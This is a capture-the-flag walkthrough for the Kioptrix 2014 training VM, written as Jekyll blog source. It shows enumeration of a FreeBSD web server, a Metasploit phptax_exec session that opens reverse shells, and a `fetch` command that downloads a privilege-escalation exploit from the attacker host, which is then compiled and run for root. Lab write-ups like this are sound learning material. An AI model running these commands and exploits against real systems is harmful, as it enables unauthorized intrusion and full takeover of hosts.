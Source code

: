 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 2014 Walkthrough"
date:   2014-04-15 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix 2014 Walkthrough, CTF solution for Kioptrix Level 2014.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>

        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>        

      </tbody>

</table>
</div>


## Web Application Interrogation

<code>http://192.168.221.159:8080/</code> rendered a page 403 forbidden page. The Firefox UserAgent switcher was leveraged to change the browser to IE 6, exposing the web application **PHPTAX** (this took a while to figure out!):


![phptax](/img/blog/kioptrix/phptax.png)

![phptax2](/img/blog/kioptrix/phptax2.png)

## Non Privileged Shell

Research discovered a metasploit module existed for phptax:

{% highlight bash %}

msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > set RHOST 192.168.221.159
RHOST => 192.168.221.159
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set TARGETURI /phptax/
TARGETURI => /phptax/
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.221.159  yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > run

[*] [2016.01.07-08:20:41] Started reverse double handler
[*] [2016.01.07-08:20:41] 192.168.221.1598080 - Sending request...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Command: echo GiSakqCyBJv7ZAuW;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:42] Command: echo 4yauS5V9QPhhcobv;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "GiSakqCyBJv7ZAuW\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "4yauS5V9QPhhcobv\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] Command shell session 1 opened (192.168.221.162:4444 -> 192.168.221.159:45072) at 2016-01-07 08:20:43 -0500
[*] Command shell session 2 opened (192.168.221.162:4444 -> 192.168.221.159:62420) at 2016-01-07 08:20:43 -0500

id
uid=80(www) gid=80(www) groups=80(www)

{% endhighlight %}

## Local Privilege Escalation

The binary <code>fetch</code> was used to download a FreeBSD 9.0-9.1 mmap/ptrace - Privilege Escalation Exploit, fetch was used as the target didn't contain the usual binaries for file download (wget, curl, etc).

{% highlight bash %}

wget
wget: not found

curl
curl: not found

fetch -o exploit http://192.168.221.162:45/26368
exploit                                               2215  B   32 MBps

mv exploit exploit.c
gcc exploit.c -o exploit
./exploit

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
/bin/sh -i
sh: can't access tty; job control turned off
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
# cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in
mind, and not meant for the seasoned pentester. However this does not mean one
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks.

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)

{% endhighlight %}

Thanks for the VM :)
